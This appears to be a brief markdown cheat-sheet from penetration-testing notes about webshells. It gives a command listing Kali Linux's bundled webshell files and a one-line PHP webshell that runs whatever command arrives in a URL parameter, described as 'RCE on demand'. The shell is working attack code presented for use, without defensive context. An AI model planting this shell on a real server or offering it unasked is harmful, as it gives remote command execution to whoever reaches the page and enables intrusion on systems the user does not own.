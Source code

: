 ## Intro
Who doesn't like the RCE on demand?

List webshells available on Kali
```
tree /usr/share/webshells/
```

## Apache
Basic PHP webshell
```
# Take input from the URL paramter. e.g http://<IP>/shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
```

